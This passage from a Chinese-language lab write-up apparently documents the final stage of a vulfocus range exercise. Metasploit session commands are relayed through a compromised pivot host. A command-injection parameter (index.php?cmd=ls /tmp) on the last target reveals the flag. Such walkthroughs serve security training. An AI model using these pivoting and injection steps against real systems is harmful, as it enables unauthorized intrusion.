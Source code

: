 ### 拿到最终靶标上的flag

```
# 利用跳板机 192.170.84.3 的 shell 会话「踩点」最终靶标
sessions -c "curl http://192.169.85.2" -i 5
# 发现没安装 curl ，试试 wget
sessions -c "wget http://192.169.85.2" -i 5
# 发现没有命令执行回显，试试组合命令
sessions -c "wget http://192.169.85.2 -O /tmp/result && cat /tmp/result" -i 5
# 发现 get flag 提示
sessions -c "wget 'http://192.169.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 5
# index.php?cmd=ls /tmpflag-{bmh8f2e8555-eab8-43f9-8654-78c019607788}
```

![alt text](image-36.png)

提交至vulfocus处，成功，至此最后的靶标5也被成功攻破。
